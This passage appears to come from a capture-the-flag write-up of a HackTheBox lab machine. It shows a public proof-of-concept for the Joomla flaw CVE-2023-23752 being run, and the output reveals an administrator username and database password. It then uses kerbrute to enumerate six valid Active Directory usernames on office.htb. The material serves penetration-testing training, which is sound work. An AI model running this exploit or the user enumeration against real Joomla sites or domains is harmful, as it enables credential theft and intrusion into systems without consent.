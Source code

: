 We find a PoC script for `CVE-2023-23752` on [GitHub](https://github.com/K3ysTr0K3R/CVE-2023-23752-EXPLOIT). Running the exploit provides us with a username and password.

```console
$ python CVE-2023-23752.py -u http://10.10.11.3
┏┓┓┏┏┓  ┏┓┏┓┏┓┏┓  ┏┓┏┓━┓┏━┏┓
┃ ┃┃┣ ━━┏┛┃┫┏┛ ┫━━┏┛ ┫ ┃┗┓┏┛
┗┛┗┛┗┛  ┗━┗┛┗━┗┛  ┗━┗┛ ╹┗┛┗━
Coded By: K3ysTr0K3R --> Hug me ʕっ•ᴥ•ʔっ

[*] Checking if target is vulnerable
[+] Target is vulnerable
[*] Launching exploit against: http://10.10.11.3
---------------------------------------------------------------------------------------------------------------
[*] Checking if target is vulnerable for usernames at path: /api/index.php/v1/users?public=true
[+] Target is vulnerable for usernames
[+] Gathering username(s) for: http://10.10.11.3
[+] Username: Administrator
---------------------------------------------------------------------------------------------------------------
[*] Checking if target is vulnerable for passwords at path: /api/index.php/v1/config/application?public=true
[+] Target is vulnerable for passwords
[+] Gathering password(s) for: http://10.10.11.3
[+] Password: H0lOgrams4reTakIng0Ver754!
```
Trying to login as the `Administrator` account on the Joomla backend fails. Looking at the endpoint where this password was found, it looks like this is the password for the Joomla database, so for now we proceed.

### Domain Enumeration
With port `88` open, we proceed to enumerate domain usernames using `kerbrute`, successfully identifying several valid accounts.

```console
$ kerbrute userenum -d office.htb --dc 10.10.11.3 jsmith.txt
    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: v1.0.3 (9dad6e1) - 07/16/24 - Ronnie Flathers @ropnop

2024/07/16 09:52:36 >  Using KDC(s):
2024/07/16 09:52:36 >  	10.10.11.3:88

2024/07/16 09:52:41 >  [+] VALID USERNAME:	 ewhite@office.htb
2024/07/16 09:52:54 >  [+] VALID USERNAME:	 dmichael@office.htb
2024/07/16 09:52:56 >  [+] VALID USERNAME:	 dwolfe@office.htb
2024/07/16 09:53:01 >  [+] VALID USERNAME:	 tstark@office.htb
2024/07/16 09:53:54 >  [+] VALID USERNAME:	 hhogan@office.htb
2024/07/16 09:54:00 >  [+] VALID USERNAME:	 ppotts@office.htb
```
We found 6 usernames from the `jsmith` wordlist and add them to our `ad_users.txt` list. 

